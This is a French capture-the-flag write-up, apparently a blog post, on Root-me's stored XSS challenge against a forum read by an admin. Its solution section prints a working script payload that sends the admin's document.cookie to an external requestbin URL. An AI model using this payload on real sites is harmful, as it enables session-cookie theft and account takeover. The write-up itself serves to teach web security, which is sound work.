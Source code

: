 ```yaml
---
title: Root-me - XSS - Stored
meta_title: ""
description: 
date: 2024-06-07T05:00:00Z
image: /images/rootme_logo.png
categories:
  - WebClient
  - Facile
author: Tmax
tags:
  - WebClient
  - Rootme
  - XSS
draft: false
---
```


# Introduction

Pour ce challenge, nous allons devoir abuser d'une XXS stockée.

Ce qui signifie qu'un input utilisateur sera interprété comme du code et sera donc exécuté. 

En effet, l'application n'est autre qu'un forum, où un admin semble lire les messages de temps en temps. 

Ce write-up sera en deux parties. 

La première ne contiendra que des hints et aucune solution, contrairement à la seconde. 


{{< tabs >}} {{< tab "Niveau 1" >}}
- Avez-vous testé une injection basique ?
- Vous avez bien lu la description du challenge ? 
- C'est quoi au fait un REQUEST BIN ? 

{{< /tab >}}

{{< tab "Niveau 2" >}}

Personnellement pour solve ce challenge j'ai utilisé https://requestbin.kanbanbox.com. 

J'ai tenté de créer une nouvelle image (`<script>var i = new Image(); ... </script>`), dont sa source serait l'url suivante qui utilise `document.cookie` pour concaténer le cookie admin à l'url saisie en dur : 

```
<script>var i=new Image(); i.src='https://requestbin.kanbanbox.com/syauodsy/?cookie='+encodeURIComponent(document.cookie);</script>
```

En utilisant `encodeURIComponent`, le cookie est correctement encodé pour l'URL, garantissant que tous les caractères spéciaux sont transmis correctement.

Si je retourne sur mon requestbin, je récupère alors le cookie_admin et je peux maintenant récupérer le flag. 

{{< /tab >}}
{{< /tabs >}}
